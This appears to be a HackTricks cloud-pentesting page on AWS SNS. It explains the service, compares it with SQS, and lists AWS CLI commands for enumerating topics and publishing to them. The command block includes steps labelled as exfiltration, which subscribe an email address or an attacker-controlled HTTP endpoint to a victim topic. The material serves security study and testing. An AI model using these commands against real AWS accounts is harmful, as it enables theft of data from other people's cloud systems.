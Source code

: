 # AWS - SNS Enum

{{#include ../../../banners/hacktricks-training.md}}

## SNS

Amazon Simple Notification Service (Amazon SNS) is described as a **fully managed messaging service**. It supports both **application-to-application** (A2A) and **application-to-person** (A2P) communication types.

Key features for A2A communication include **publish/subscribe (pub/sub) mechanisms**. These mechanisms introduce **topics**, crucial for enabling high-throughput, **push-based, many-to-many messaging**. This feature is highly advantageous in scenarios that involve distributed systems, microservices, and event-driven serverless architectures. By leveraging these topics, publisher systems can efficiently distribute messages to a **wide range of subscriber systems**, facilitating a fanout messaging pattern.

### **Difference with SQS**

**SQS** is a **queue-based** service that allows point-to-point communication, ensuring that messages are processed by a **single consumer**. It offers **at-least-once delivery**, supports standard and FIFO queues, and allows message retention for retries and delayed processing.\
On the other hand, **SNS** is a **publish/subscribe-based service**, enabling **one-to-many** communication by broadcasting messages to **multiple subscribers** simultaneously. It supports **various subscription endpoints like email, SMS, Lambda functions, and HTTP/HTTPS**, and provides filtering mechanisms for targeted message delivery.\
While both services enable decoupling between components in distributed systems, SQS focuses on queued communication, and SNS emphasizes event-driven, fan-out communication patterns.

### **Enumeration**

```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
    --topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
    --message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
    --topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
    --protocol email \
    --notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

> [!CAUTION]
> Note that if the **topic is of type FIFO**, only subscribers using the protocol **SQS** can be used (HTTP or HTTPS cannot be used).
>
> Also, even if the `--topic-arn` contains the region make sure you specify the correct region in **`--region`** or you will get an error that looks like indicate that you don't have access but the problem is the region.

#### Unauthenticated Access

{{#ref}}
../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum/README.md
{{#endref}}

#### Privilege Escalation

{{#ref}}
../aws-privilege-escalation/aws-sns-privesc/README.md
{{#endref}}

#### Post Exploitation

{{#ref}}
../aws-post-exploitation/aws-sns-post-exploitation/README.md
{{#endref}}

#### Persistence

{{#ref}}
../aws-persistence/aws-sns-persistence/README.md
{{#endref}}

## References

- [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{{#include ../../../banners/hacktricks-training.md}}




